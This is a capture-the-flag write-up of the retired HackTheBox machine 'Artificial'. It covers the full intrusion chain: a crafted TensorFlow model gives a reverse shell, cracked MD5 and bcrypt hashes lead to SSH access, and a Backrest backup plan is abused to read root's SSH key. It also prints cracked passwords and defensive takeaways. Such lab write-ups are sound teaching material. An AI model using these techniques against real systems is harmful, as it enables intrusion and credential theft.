


+++
title = "Artificial — model uploads and the authority of a backup service"
date = "2025-11-04"
date_source = "source-created"
platform = "HackTheBox"
box_status = "retired"
difficulty = "Easy"
tags = ["Linux", "Machine learning", "Credential analysis", "SSH tunneling", "Backups"]
summary = "A model-processing application provided initial execution; reused credentials and a locally bound backup service turned that foothold into root access."
draft = false
kind = "solve"
publication_approved = true
+++

## Overview

Artificial connected an unusual upload surface with a familiar administrative risk. The application accepted TensorFlow models, and processing a crafted model produced execution as the application user. From there, a local database led to SSH access, and a privileged backup service exposed a root SSH key.

The completed chain was model upload → application shell → recovered user password → Backrest access → root key recovery. The lesson was to examine both how untrusted artifacts are processed and what authority an internal management application retains.

## Matching the model-processing environment

After registering an application account, I found an upload workflow restricted to `.h5` files. The extension identified an HDF5 container; it did not establish that the model inside was safe to load.

I used Python 3.8 with TensorFlow CPU 2.13.1, matching the wheel referenced by the application's Dockerfile. A compatible environment was important because the uploaded model had to load successfully before its embedded behavior could execute.

On my lab workstation, I started a matching container with the current directory mounted at `/tmp`:

```bash
docker pull python:3.8-slim
sudo docker run -it -v "$(pwd):/tmp" python:3.8-slim bash
```

Inside the container, I installed the supplied TensorFlow wheel and checked its version. Replace the wheel filename below with the one downloaded from the application:

```bash
cd /tmp
pip3 install './tensorflow_cpu-<version-and-platform>.whl'
pip3 freeze | grep tensorflow
```

I used the [TensorFlow model execution proof of concept](https://github.com/Splinter0/tensorflow-rce/blob/main/exploit.py) to generate the model, with the callback address and port set for my listener:

```bash
# Inside the container, after saving the configured PoC as exploit.py
python3 exploit.py

# In a separate terminal on the lab workstation
nc -lvnp 1234
```

Uploading the crafted model and viewing its results triggered a callback as `app`.



TensorFlow's [security guidance](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) treats untrusted models as a security-sensitive execution surface. Here, the demonstrated issue was the server's processing of an attacker-controlled model; an `.h5` filename alone is not a vulnerability diagnosis.

## Recovering a usable local account

The application directory contained `instance/users.db`, with user records and password hashes. A record for `gael` was particularly relevant because a matching local account existed under `/home`.

I inspected the application's hashing code before selecting a cracking mode:

```bash
grep -rin 'hash' .
```

The code identified MD5. I saved Gael's hash to `hash.md5` and used Hashcat mode 0 with the RockYou wordlist:

```bash
printf '%s\n' 'c99175974b6e192936d97224638a34f8' > hash.md5
hashcat -m 0 -a 0 hash.md5 /usr/share/wordlists/rockyou.txt
hashcat -m 0 hash.md5 --show
ssh gael@artificial.htb
```

The recovered password, `mattp005numbertwo`, also worked for SSH. This established reuse between the application and operating-system account.

## Reaching the local backup dashboard

Listening-service enumeration showed a service bound locally on port 9898. An SSH tunnel made it available through the lab workstation:

```bash
ss -tlnp
ssh -L 9898:localhost:9898 -N gael@artificial.htb
```

Browsing to the forwarded port revealed Backrest.



I did not yet have dashboard credentials. Searching the target for service-related files located `/var/backups/backrest_backup.tar.gz`:

```bash
find / -name '*backrest*' 2>/dev/null
```

On the workstation, I downloaded and extracted the backup, then searched its configuration:

```bash
scp gael@artificial.htb:/var/backups/backrest_backup.tar.gz .
mkdir backrest-backup
tar -xvf backrest_backup.tar.gz -C backrest-backup
grep -rin -C 10 'password' backrest-backup
```

The `-C 10` option includes surrounding lines, making it easier to associate the password field with its username. The stored value decoded to a bcrypt hash. After saving that encoded field alone to `backrest-password.b64`, the recovery steps were:

```bash
base64 -d backrest-password.b64 > hash.bcrypt
hashcat -m 3200 -a 0 hash.bcrypt /usr/share/wordlists/rockyou.txt
hashcat -m 3200 hash.bcrypt --show
```

The recovered password, `!@#$%^`, opened the Backrest dashboard. The readable backup had exposed authentication material for a more privileged service.

## Reading root's files through the backup service

The dashboard allowed creation of repositories and backup plans. I created a repository in a writable location and configured a plan to back up `/root/.ssh`. The resulting snapshot showed that the service could read a directory my ordinary shell could not.

Using the dashboard's restic command interface, I listed the snapshot and extracted the private key:

```text
ls latest
dump <snapshot-ID> /root/.ssh/id_rsa
```

I saved the complete private key output as `root.id_rsa` on the workstation and used it for SSH:

```bash
chmod 600 root.id_rsa
ssh -i root.id_rsa root@artificial.htb
```

The login succeeded. The boundary crossed at this stage was the service's filesystem authority: dashboard access allowed me to choose privileged files for backup and then read the result.

## Defensive takeaways

- Process untrusted models in isolated workers with minimal filesystem and network access.
- Use an appropriate password-hashing scheme and avoid password reuse between application and host accounts.
- Restrict access to application backups and rotate credentials disclosed in historical copies.
- Limit who can create backup jobs, which paths they can select, and who can restore their contents.
- Treat locally bound management services as reachable after a host foothold; binding to localhost is only one layer of protection.

## What I learned

The second half of the solve was about following application authority. A backup interface can expose root-owned data without providing a conventional root command prompt. Enumerating local services and their stored configuration was as important as the initial model upload.
